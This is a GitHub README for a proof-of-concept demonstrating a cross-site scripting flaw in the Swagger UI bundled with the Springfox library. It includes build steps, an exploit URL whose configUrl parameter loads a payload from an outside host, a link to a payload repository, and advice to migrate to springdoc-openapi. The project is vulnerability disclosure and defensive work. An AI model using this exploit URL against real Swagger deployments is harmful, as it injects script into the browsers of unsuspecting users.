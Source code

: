 # springfox XSS PoC

## Credit and Thanks
Example application was copied from: [https://github.com/evrentan/my-swagger-ui-example](https://github.com/evrentan/my-swagger-ui-example)

All credit for code goes to: [evrentan](https://github.com/evrentan) for providing the excellent example code!

## About
Springfox is a commonly used library for JVM-based languages to easily provide JSON documentation.
Springfox includes a vulnerable version of the Swagger UI with known XSS vulnerabilities.

Because of this, all versions of Springfox appear to be vulnerable to a Swagger XSS issue.

The affected module appears to be: [io.springfox.springfox-swagger-ui](https://mvnrepository.com/artifact/io.springfox/springfox-swagger-ui)

The vulnerable Swagger UI bundled version is shown at: [https://github.com/springfox/springfox/blob/master/springfox-swagger-ui/build.gradle#L24](https://github.com/springfox/springfox/blob/master/springfox-swagger-ui/build.gradle#L24)

## Running the PoC

Ensure you have JDK 11 available to properly build this.

1. Run: `mvn spring-boot:run`
2. Navigate to: http://localhost:8080/swagger-ui/index.html?configUrl=https://xss.smarpo.com/test.json

XSS Payloads are hosted at: [seanmarpo/swagger-xss-payloads](https://github.com/seanmarpo/swagger-xss-payloads)

## Mitigation / Solutions

Good news, bad news. Springfox appears to no longer be maintained, however [springdoc-openapi](https://github.com/springdoc/springdoc-openapi) is a drop-in replacement that is actively being maintained.

The migration guide to springdoc from springfox can be found at: [https://springdoc.org/#migrating-from-springfox](https://springdoc.org/#migrating-from-springfox).

## Copyright

GNU General Public License v3.0
Permissions of this strong copyleft license are conditioned on making available complete source code of licensed works and modifications, which include larger works using a licensed work, under the same license. Copyright and license notices must be preserved. Contributors provide an express grant of patent rights.

